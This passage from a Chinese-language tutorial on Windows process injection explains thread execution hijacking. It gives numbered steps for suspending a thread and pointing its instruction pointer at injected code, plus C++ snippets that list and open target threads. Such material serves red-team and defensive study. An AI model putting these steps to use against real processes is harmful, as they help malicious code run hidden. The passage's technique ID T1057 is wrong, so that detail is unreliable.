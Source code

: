         C++
        
        ```
        if (ResumeThread(target_pi->hThread) == (DWORD)-1) { /* 错误处理 */ }
        // CloseHandle(target_pi->hThread);
        // CloseHandle(target_pi->hProcess);
        ```
        

##### 5. 滥用进程组件：线程执行劫持 (Abusing Process Components: Thread Execution Hijacking)

线程执行劫持 (T1057) 是一种通过控制目标进程中现有线程的执行流来运行恶意代码的技术。

大致步骤如下：

1. 定位并打开目标进程。
2. 为恶意代码在目标进程中分配内存。
3. 将恶意代码写入分配的内存。 (这前三步与标准 Shellcode 注入类似，代码片段已在前面提供，此处不再重复)
4. **确定要劫持的目标线程 ID**: 遍历目标进程的所有线程。
5. **打开目标线程**: 获取目标线程的句柄。
6. **挂起目标线程**: 暂停目标线程的执行。
7. **获取线程上下文**: 保存目标线程当前的寄存器状态。
8. **更新指令指针**: 修改线程上下文中保存的指令指针 (RIP/EIP)，使其指向注入的恶意代码。
9. **重写目标线程上下文**: 将修改后的上下文应用回目标线程。
10. **恢复被劫持的线程**: 恢复线程执行，此时它将从恶意代码处开始运行。
11. (可选) 恶意代码执行完毕后，可能需要恢复原始指令指针和线程状态，以避免目标程序崩溃。

**API 调用步骤详解 (从第4步开始)**:

- 步骤 4 & 5: 枚举并打开目标线程 (CreateToolhelp32Snapshot, Thread32First, Thread32Next, OpenThread)
    
    使用 Toolhelp API 枚举指定进程 (processId) 的所有线程，找到一个合适的线程进行劫持，并使用 OpenThread 打开它。
    
    C++
    
    ```
    // DWORD processId; // 假设已获取目标进程PID
    // HANDLE hThread = NULL; // 用于存储目标线程句柄
    THREADENTRY32 threadEntry;
    threadEntry.dwSize = sizeof(THREADENTRY32);
    
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0); // 创建系统所有线程的快照
    // if (hSnapshot == INVALID_HANDLE_VALUE) { /* 错误处理 */ }
    
    if (Thread32First(hSnapshot, &threadEntry)) {
        do {
            if (threadEntry.th32OwnerProcessID == processId) { // 检查线程是否属于目标进程
                hThread = OpenThread(
                    THREAD_SUSPEND_RESUME | THREAD_GET_CONTEXT | THREAD_SET_CONTEXT | THREAD_QUERY_INFORMATION, // 请求必要权限 (原文 THREAD_ALL_ACCESS)
                    FALSE,
                    threadEntry.th32ThreadID // 从 THREADENTRY32 结构中读取线程ID
                );
                // if (hThread != NULL) { break; /* 找到了一个线程并成功打开 */ }
            }
        } while (Thread32Next(hSnapshot, &threadEntry));
    }
    CloseHandle(hSnapshot);
    // if (hThread == NULL) { /* 未找到或打开线程失败，错误处理 */ }
    ```
    